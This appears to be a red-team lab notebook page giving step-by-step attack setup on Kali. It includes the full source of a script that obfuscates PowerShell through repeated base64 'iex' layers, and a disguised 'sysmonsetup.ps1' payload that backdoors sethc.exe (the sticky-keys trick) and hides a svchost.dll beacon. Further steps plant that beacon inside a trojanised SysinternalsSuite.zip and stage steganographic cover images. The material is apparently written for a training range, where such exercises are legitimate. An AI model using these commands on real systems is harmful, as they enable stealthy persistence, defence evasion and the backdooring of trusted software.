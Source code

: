 Copy and paste this into a file into /home/kali/Desktop/tools named doge64commander.sh ensure you also run chmod +x on the file to make it executable

cd /home/kali/Desktop/tools ; nano doge64commander.sh ; chmod +x doge64commander.sh

#!/bin/bash
echo "What command would you like to encode? "
read command
enccmd=$(echo $command | base64)

echo "How many iterations? "
read counter
for (( i=1; i<=$counter; i++)); do
  start=$(date +%s%N)
  echo 'iex $($x=[Convert]::FromBase64String("'$enccmd'");$y=[System.Text.Encoding]::UTF8.GetString($x);$y)' > commanded.ps1
  enccmd=$(cat commanded.ps1 | base64)
  end=$(date +%s%N)
  echo "Time elapsed for loop $i: $(($((end - start)) / 1000000)) ms"
  done

Create the sysmonsetup.ps1 script

Run doge64commander.sh to encode the script

cd "/home/kali/Desktop/tools/Service Pack/HelpDesk Service Pack"
/home/kali/Desktop/tools/doge64commander.sh ; mv commanded.ps1 sysmonsetup.ps1

Encode the following and iterate it 15 to 25 times

takeown /f "C:\\windows\\System32\\sethc.exe" /a > $null ; icacls.exe C:\\Windows\\System32\\sethc.exe /grant "Everyone:F" > $null ; cd \"C:\\Users\\Public\\'HelpDesk Service Pack'\"; Set-ItemProperty -Path C:\\Windows\\System32\\svchost.dll -Name Attributes -Value ([System.IO.FileAttributes]::Hidden) > $null ; copy sethc.exe C:\\Windows\\System32\\sethc.exe -force ; sysmon.exe -i -accepteula ; sysmon.exe -c sysmonconfig-export.xml ; del sethc.exe -force; sysmon.exe -c -- ; del sysmonconfig-export.xml -force 

Add the beacon into the SysinternalsSuite.zip

cd "/home/kali/Desktop/tools/Service Pack/HelpDesk Service Pack"
unzip -q SysinternalsSuite.zip -d temp && cp ../svchost.dll temp/ && rm SysinternalsSuite.zip && cd temp && zip -q -r ../SysinternalsSuite.zip . && cd .. && rm -rf temp

Getting 4k - 8k images for STEGO

Download Images: https://unsplash.com/collections/18134858/8k-wallpapers 

Downloaded a few to use, one of them can have a bear, and it will be the cover for getting tools in

Use the same method to download them as we did with the java installer

MAKE SURE THE IMAGE HAS THE SAME EXTENSION AS IT DID WHEN IT WAS ON YOUR HOST MACHINE

cd "/home/kali/Desktop/tools/Service Pack/Wallpaper Engine"

# ENSURE THE FILE EXTENSION MATCHES THE ORIGINAL FILE
wget -O <DESCRIPTIVE NAME> <LINK TO PCTE DOWNLOAD>

